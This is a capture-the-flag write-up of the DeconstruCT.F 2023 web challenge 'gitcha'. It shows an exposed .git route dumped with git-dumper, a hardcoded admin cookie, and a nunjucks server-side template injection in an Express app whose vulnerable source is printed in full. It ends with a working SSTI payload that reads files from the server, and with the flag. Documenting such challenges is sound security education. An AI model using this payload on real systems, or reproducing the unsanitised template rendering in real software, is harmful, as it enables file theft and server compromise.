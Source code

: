 # DeconstruCT.F 2023

## gitcha

> Simon is maintaining a personal portfolio website, along with a secret which no one else knows.
>
> Can you discover his secret?
>
>  Author: N/A
>

Tags: _web_

## Solution
Another web application is given. Browsing the code a comment stands out:

```html
<!-- John, don't forget to take the .git route down, we don't need it anymore -->
```

So there seems to be a `.git` route. Indeed there is and it exposes a git repository. The repository can be cloned with `git-dumper`.

```bash
git-dumper https://ch28770128711.ch.eng.run/ repo
```

The main part of the app is in `index.js`. There is the already known `/.git` route also `/robots.txt` that exposes another route `/supersecret` but thats no much use since we already have the code.

`supersecret` is interesting as it exposes functionality to admin only. The admin check itself is trivial, a cookie `SECRET_COOKIE_VALUE` needs to be set to the value `thisisahugesecret`, so we do this in our browser. Now we are admin, feels great.

Then there is some functionality to create and view `notes`. `/addnote` adds a note to a database and `/getnotedetails` renders note details, again only for admin. The interesting bit is, in neither `addnote` or `getnotedetails` there is any sanitation done to the user input. This strongly smells like `SSTI`. To check this out we can enter something like `{{8*8}}` as comment and check the details. And indeed, the details show `64`. The template engine is [`nunjucks`](https://mozilla.github.io/nunjucks/) so we can look for fitting [`payloads`](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml), [`here`](https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) or [`here`](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). 

```js
const express = require("express");
const fs = require("fs");
const serveIndex = require("serve-index");
const cookieParser = require("cookie-parser");
const nunjucks = require("nunjucks");
const bodyParser = require("body-parser");

const { PrismaClient } = require("@prisma/client");
const prisma = new PrismaClient();

const app = express();

const checkAdmin = (req, res) => {
  if (req.cookies["SECRET_COOKIE_VALUE"] === "thisisahugesecret") {
    return true;
  }
  return false;
};

nunjucks.configure("views", {
  autoescape: true,
  express: app,
});

app.use(cookieParser());
app.use(express.static("public"));
app.use(bodyParser.urlencoded({ extended: true }));

app.use("/.git", express.static(".git/"), serveIndex(".git/", { icons: true }));

app.get("/robots.txt", (req, res) => {
  res.type("text/plain");
  res.send("User-agent: *\nDisallow: /.git/\nDisallow: /supersecret/");
});

app.get("/supersecret", async (req, res) => {
  if (checkAdmin(req, res)) {
    const results = await prisma.note.findMany();
    res.render("notes.html", { foo: "bar", notes: results });
  } else {
    res.redirect("/");
  }
});

app.get("/getnotedetails", async (req, res) => {
  if (checkAdmin(req, res)) {
    const { id } = req.query;
    const note = await prisma.note.findUnique({ where: { id: parseInt(id) } });
    res.send(
      nunjucks.renderString(`
      <div style="margin: 15px;">
        <h1 style="font-family: Roboto;">${note.title}</h1>
        <p>${note.content}</p>
      </div>
  `)
    );
  } else {
    res.redirect("/");
  }
});

app.post("/addnote", async (req, res) => {
  if (checkAdmin(req, res)) {
    await prisma.note.create({
      data: {
        title: req.body.title,
        content: req.body.content,
      },
    });
    res.status(200).send("Note added");
  } else {
    res.status(403).send("Forbidden");
  }
});

app.get("/viewsource", (req, res) => {
  if (checkAdmin(req, res)) {
    const data = fs.readFileSync("index.js", "utf8");
    res.type("text/javascript");
    res.send(`
        ${data}
    `);
  }
});

app.listen(8080, () => {
  console.log("Example app listening on port 8080!");
});
```

After some trial and error (and some server crashes) the following payload gave the flag.

```js
{{range.constructor("return global.process.mainModule.require('fs').readFileSync('flag.txt')")()}}
```

Flag `dsc{g1t_enum3r4ti0n_4nD_sSt1}`
